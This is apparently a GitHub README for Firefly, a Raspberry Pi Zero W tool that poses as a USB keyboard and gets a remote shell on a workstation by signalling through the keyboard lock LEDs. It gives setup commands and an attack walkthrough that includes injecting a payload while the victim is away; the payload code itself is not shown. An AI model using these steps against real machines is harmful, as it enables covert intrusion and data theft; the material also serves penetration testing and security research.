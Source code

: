 # Firefly

![LOGO](https://github.com/yownas/firefly/blob/master/DATA/firefly.png)

Firefly is a proof-of-concept tool to exfiltrate data from a computer by communicating via light, just like real life fireflies.

Well, not really, it may not actually communicate with light but it acts like a usb keyboard and use the state of the caps-, num- and scroll-lock leds to get signals sent back to the device. It is not fast but what you get is a remote shell over wifi to a workstation that may not have network or that have blocked any other usb-devices than mice and keyboards.

While this attack has been explored before...
````
https://techblog.vsza.hu/posts/Leaking_data_using_DIY_USB_HID_device.html
````
... and using devices to act as keyboards has been around for a while...
````
https://www.arduino.cc/en/Reference/MouseKeyboard
https://hakshop.com/products/usb-rubber-ducky-deluxe
https://hakshop.com/products/bash-bunny
https://www.youtube.com/watch?v=FPBzOaLbWhM
````
...I never seen any tool using the keyboard leds to get an interactive shell on the victim... So I made one.

# Installation

Download and install Raspbian Lite on a Raspbery PI Zero W.
https://www.raspberrypi.org/downloads/raspbian/

Setup wifi. If you need to do this headless you can add an empty file called ssh.txt at the root of your Raspbian sd-card and a file called wpa_supplicant.conf that contain your wifi-settings. (Needs to have Linux line breaks)
````
country=US
ctrl_interface=DIR=/var/run/wpa_supplicant GROUP=netdev
update_config=1
network={
    ssid="YOUR_SSID"
    psk="YOUR_PASSWORD"
    key_mgmt=WPA-PSK
}
````

(Don't forget the ssh.txt file.)

Boot up and log in and get a proper root-shell.
````
sudo -i
````

Update and install useful commands:
apt update
apt upgrade
apt install git rpi-update

Current kernel, after an "apt upgrade" (2017-05-15), has some problem with hid-gadgets.
If running "1.setup" later cause trouble you might need to downgrade to 4.4.49+ by running:
````
rpi-update 2ca627126e49c152beb1bf7abd7122ce076dcc65
````

Enable dwc2 overlay and add modules:

````
echo "dtoverlay=dwc2" >> /boot/config.txt
echo "dwc2" >> /etc/modules
echo "libcomposite" >> /etc/modules
````

Download Firefly.

````
cd
git clone <url>
cd firefly
````

Done...

(Reboot before you try the attack.)

# Attack

(This has been tested on a laptop with a clean Cent OS 7 + python-xlib installed.)

Connect Firefly to the victim workstation. Connect the usb-cable to the usb-port marked "USB", not the one marked "PWR". Wait until it boots and then log in on it and change to the firefly folder.

````
cd ~/firefly
````

## Create usb hid gadget device.
(If this cause a segfault and errors in the kernel, downgrade to 4.4.49+. (see above))
````
./1.setup
````
On your Firefly-device you should get /dev/hidg0 and the victim should see something like this in /var/log/messages.
````
May 15 21:09:14 vince kernel: usb 2-1: new high-speed USB device number 95 using ehci-pci
May 15 21:09:14 vince kernel: usb 2-1: New USB device found, idVendor=0525, idProduct=a4ac
May 15 21:09:14 vince kernel: usb 2-1: New USB device strings: Mfr=1, Product=2, SerialNumber=3
May 15 21:09:14 vince kernel: usb 2-1: Product: Firefly keyboard
May 15 21:09:14 vince kernel: usb 2-1: Manufacturer: Yownas
May 15 21:09:14 vince kernel: usb 2-1: SerialNumber: b8:27:eb:12:34:56
May 15 21:09:14 vince kernel: input: Yownas Firefly keyboard as /devices/pci0000:00/0000:00:1d.7/usb2/2-1/2-1:1.0/input/input20
May 15 21:09:14 vince kernel: hid-generic 0003:0525:A4AC.0007: input,hidraw0: USB HID v1.01 Keyboard [Yownas Firefly keyboard] on usb-0000:00:1d.7-1/input0
````

## Push payload.
````
./2.payload
````
This needs to be done while the victim leaves the screen unlocked and isn't looking. This takes ~10 seconds.


## Run firefly-client
````
./3.firefly
````
If everything works fine you should get a (very slow) shell on the victim.

Ctrl-Q to exit the client, remote shell keeps on running. You may reconnect later.
If you exit the remote shell or kill the process firefly started, the payload will also exit.

# "Protocol"

The protocol used is rather simple, see pseudo-code below. It is rather naive and have no error checking. But it works ok for a PoC. Server and client use the same protocol, only difference is that the victim machine starts with the listening part instead of send.

````
If there is data to send
  Get one byte
  Send each bit as num-lock (0) or caps-lock (1)
Send a scroll-lock to signal end of transmission

Listen for num-lock and caps-lock until we see a scroll-lock
If we have 8 bits
  assemble character and print/parse it

Return to start
````

# Target audience 

Who is this tool created for? Mainly it was to get an old idea I had stuck in my head out. Can you really use the caps-lock light to exfiltrate data? ...apparently you can.

If you are a penetration-tester that finds Firefly useful when having a demonstration for customers, I would love to get an e-mail telling me how it went and how they reacted. (yownas@gmail.com) (Merch is also ok, coffee-mugs, t-shirts (size XL) and stickers.) :)

If you are an evil government agency using this to steal secret documents and/or launch-codes I understand that sending me an e-mail might be against regulations, but maybe an anonymous post-card is ok? (If you really are an evil government agency you probably already know who I am and where I live.)
